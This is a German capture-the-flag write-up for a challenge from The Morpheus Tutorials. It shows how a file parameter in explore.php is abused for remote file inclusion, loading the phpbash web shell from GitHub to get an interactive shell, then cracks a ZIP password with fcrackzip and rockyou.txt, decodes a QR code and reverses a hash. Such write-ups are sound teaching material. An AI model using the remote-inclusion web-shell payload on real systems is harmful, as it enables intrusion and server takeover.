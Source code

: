 # Solution of [HC 0x0e](https://challenges.the-morpheus.de) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. Analyse der Webseite
Um auf das Impressum oder das Gästebuch zuzugreifen wird die Datei explore.php mit dem GET Parameter file aufgerufen, das wird im HTML Quellcode deutlich.
```html
...
<li class="nav-item"><a class="nav-link" href="explore.php?file=https://the-morpheus.de/faq.html">Impressum</a></li>
<li class="nav-item"><a class="nav-link" href="explore.php?file=guests.php">Gästebuch</a></li>
...
```

Auch die `robots.txt` kann hilfreich sein. In diesem Fall sollen Suchmachinen die Datei explore.php nicht indexieren.
```
Disallow: explore.php
```

### 2. Finden und Ausnutzen der Sicherheitslücke (local file inclusion) in der Datei `explore.php`
Wenn man die Datei ohne das GET Parameter `file` aufruft, gibt es die Fehlermeldung:
```
missing get parameter "file"
```

Beim versuch auf nicht HTML/PHP Dateien zuzugreifen erscheint eine Fehlermeldung das die Dateiendung (extension) nicht erlaubt ist.

Das Impressum wird über http eingebunden, das könnte auf eine remote file inclusion hindeuten. Wenn allerdings nur html dateien von anderen Servern eingebunden werden dürfen, bringt das recht wenig. Versuchen wir es mit einer [PHP WebShell](https://github.com/Arrexel/phpbash).

[http://185.244.192.170:20006/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php](http://localhost:8080/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php)


Ok, das hat funktioniert. Nun hat man eine Interaktive Bash Shell. Die Aufgabenstellung verrät das sich im Homeverzeichnis eines Benutzers eine ZIP Datei befindet.

An diesem Punkt sollte man sich nicht nur auf die Aufgabenstellung konzentrieren. Neben der eigentlichen Challenge im Homeverzeichnis gibt es auch eine Special Challenge. [Klick hier um zum write up zu kommen.](./solution_de_special_challenge.md)

### 3. ZIP Datei herunterladen und entschlüsseln
Es gibt verschiedene Möglichkeiten die Datei herunterzuladen. Am einfachsten ist, die Datei in `/var/www/html` zu kopieren und mit dem Browser darauf zuzugreifen.

Da die ZIP Datei mit einem Passwort geschützt ist muss dieses erst durch einen Directory Angriff mit der bekannten Wordlist [rockyou.txt](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) und einem Tool wie fcrackzip herausgefunden werden.
```
$ fcrackzip -D -u -p rockyou.txt secret.zip
PASSWORD FOUND!!!!: pw == sunshine
```

### 4. Inhalt der ZIP Datei analysieren und in QR Code umwandeln. (Challenge + Texte by @youreMine)
#### 4.1 Erkennen des Binärcodes
Man erkennt den QR Code sobald man den Text in gleichgroße Absätze aufteilt.

#### 4.2 Script zum Umwandeln der Binärdatei in einen QR Code erstellen.
```python3
from PIL import Image
import textwrap

with open("input_binary_or_not.txt", "r") as f:
    string = f.read()

converted = []

for row in textwrap.wrap(string, 530)[0::10]:
    converted.append(row.replace("0", " ")[0::10])
    print(row.replace("0", " ")[0::10])

img = Image.new('RGB', (len(converted[0]), len(converted)), "white")
pixels = img.load()

for y in range(img.size[0]):
    for x in range(img.size[1]):
        if converted[x][y] == "1":
            pixels[y, x] = (0, 0, 0)

img.save("output_qr.png")
```

Anschließend kann man den QR Code in der Datei `output_qr.png` scannen und enthält die Ausgabe:
```
a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca=sha512(text)
```

![QR Code Scanner](https://i.imgur.com/PW9Mkpb.jpg)

### 5. Hash in Text umwandeln
Der gefundene Hash kann anschließend über das [Hashtoolkit](http://hashtoolkit.com/reverse-hash/?hash=a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca) oder über Hashcat in ein Text zurückentwickelt werden.

Der mit `sha512` gehashte Text lautet: `mypassword`
